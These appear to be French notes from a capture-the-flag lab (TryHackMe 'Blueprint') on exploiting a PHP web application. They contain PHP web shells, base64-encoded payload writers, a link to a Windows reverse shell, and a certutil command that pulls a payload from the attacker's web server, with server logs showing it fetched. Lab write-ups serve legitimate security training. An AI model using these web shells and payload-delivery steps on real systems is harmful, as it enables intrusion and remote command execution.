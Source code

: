 mysqlnd 5.0.11-dev - 20120503 - $Id: 76b08b24596e12d4553bd41fc93cccd5bac2fe7a $ 



Ok, bon si on veut envoyer un fichier binaire et/ou php complexe, il faut encode en base 64.

kali@kali:~/thm/blueprint$ echo "<?php phpinfo() ?>" | base64
PD9waHAgcGhwaW5mbygpID8+Cg==

https://www.base64decode.net/php-base64-decode


```py
payload += """$file = fopen('phpinfo.php', 'wb');fwrite($file, base64_decode('PD9waHAgcGhwaW5mbygpID8+Cg=='));fclose($file);"""
```

OK, on peut envoyer un fichier encodé en base64


https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/


<?php system($_GET['cmd']);?>

<?php $output=shell_exec("cmd.exe /C '".$_GET['cmd']."'"); echo "<pre>$var</pre>"; ?>
PD9waHAgJG91dHB1dD1zaGVsbF9leGVjKCJjbWQuZXhlIC9DICciLiRfR0VUWydjbWQnXS4iJyIp
OyBlY2hvICI8cHJlPiR2YXI8L3ByZT4iOyA/Pg==

<?php echo "<pre>$_GET['cmd']</pre>"; ?>
PD9waHAgZWNobyAiPHByZT4kX0dFVFsnY21kJ108L3ByZT4iOyA/Pgo=

FAILED

kali@kali:~/thm/blueprint$ cat payload.php | base64

```py
payload += """$file = fopen('phpinfo.php', 'wb');fwrite($file, base64_decode('PD9waHAgJG91dHB1dD1zaGVsbF9leGVjKCJjbWQuZXhlIC9DICciLiRfR0VUWydjbWQnXS4iJyIp
OyBlY2hvICI8cHJlPiR2YXI8L3ByZT4iOyA/Pg=='));fclose($file);"""
```


Google : https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php

Adaptation du script > Base 64 > payload

Bon c'est une grosse chaine ...

Mise à dispo via un serveur web + téléchargement

Quel est l'equivalent de wget sous windows ? > 

https://lolbas-project.github.io/lolbas/Binaries/Certutil/#download


```py
payload += '$var = shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.9.11.184/payload.php exploit.php");'
payload += 'echo $var;'
```

```sh
kali@kali:~/thm/blueprint$ up 80
ip: 10.9.11.184/16
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.5.66 - - [20/May/2020 17:35:56] "GET /payload.php HTTP/1.1" 200 -
10.10.5.66 - - [20/May/2020 17:36:02] "GET /payload.php HTTP/1.1" 200 -
```
